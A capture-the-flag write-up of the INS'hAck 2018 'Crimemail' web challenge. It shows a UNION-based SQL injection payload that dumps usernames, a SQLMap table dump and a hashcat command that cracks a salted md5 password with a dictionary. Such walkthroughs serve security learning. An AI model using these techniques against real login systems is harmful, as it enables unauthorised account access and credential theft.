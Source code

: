 ```yaml
---
layout: post
title: INS'hAck 2018 - Crimemail
author:
  name: Crisis
comments: true
---
```

This is the first of the two web challenges of the INS'hAck CTF that I managed to flag this weekend. Here is its descriptions:  
```
Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.
Let's see if you can hack your way in his account...
Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary
```

As you can see just reading the description already gave us some valuable informations.  
The website consisted of a simple login form to access the emails and of a "lost password" page which could give us a hint about a user's password if we provided its username:  
![website](/medias/inshack18/hintpage.png)  
  
Here we could easily guess a valid username using the challenge's description. From the name `Collins Hackle` we could try a few obvious usernames, and the right one was `c.hackle`. Using it returned an original response, but the hint was useless:  
```php
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
}
```
Since that page seemed to return a lot of informations without filtering it, the next logical step was to try a SQL Injection. A simple quote returned an error:  
```sql
Database error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```
After a few tries, I managed to get all the usernames with a standard injection:
```sql
bla' UNION SELECT username FROM users -- -
```
Which returned:
```sql
array(5) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(9) "p.escobar"
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(7) "g.dupuy"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(8) "a.capone"
  }
  [3]=>
  array(1) {
    ["hint"]=>
    string(8) "c.manson"
  }
  [4]=>
  array(1) {
    ["hint"]=>
    string(8) "c.hackle"
  }
}
```
As always, at that point I decided to launch [SQLMap](http://sqlmap.org/). The `--dump` flag allowed me to dump the table:  
![sqlmap](/medias/inshack18/sqlmap.png)  
  
Now it was just a matter of cracking that md5 hash. As we can see we could get the salt from the database, and we knew from the challenge's description that the salt is used after the password:
`md5($password + $salt)`. 
I used [hashcat](https://hashcat.net/hashcat/) to crack it, with the help of the classic rockyou dictionnary:
```
./hashcat -a 0 -m 10 f2b31b3a7a7c41093321d0c98c37f5ad:yhbG rockyou.txt
```
The `-a 0` flag means that we're doing a "straight" attack using a dictionnary, and the `-m 10` flag tells hashcat that it's a md5 hash and that the salt is after the password : `10 | md5($pass.$salt)`. Using that command I almost instantly got the password : `f2b31b3a7a7c41093321d0c98c37f5ad:yhbG:pizza`  
  
Then you could just log in, and get the flag:  
![flag](/medias/inshack18/flag.png)  